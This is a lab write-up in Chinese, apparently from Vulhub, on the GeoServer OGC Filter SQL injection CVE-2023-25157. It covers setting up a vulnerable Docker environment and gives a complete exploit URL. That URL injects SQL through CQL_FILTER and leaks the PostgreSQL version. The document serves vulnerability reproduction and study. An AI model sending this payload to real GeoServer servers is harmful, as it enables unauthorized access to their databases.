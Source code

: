 # GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

参考链接：

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## 漏洞环境

执行如下命令启动一个SeoServer 2.22.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/geoserver`即可查看到GeoServer的首页。

## 漏洞复现

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

利用这些已知参数，发送如下URL即可触发SQL注入漏洞：

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![](1.png)

可见，已经使用SQL注入获取到了目标服务器PostgreSQL的版本。
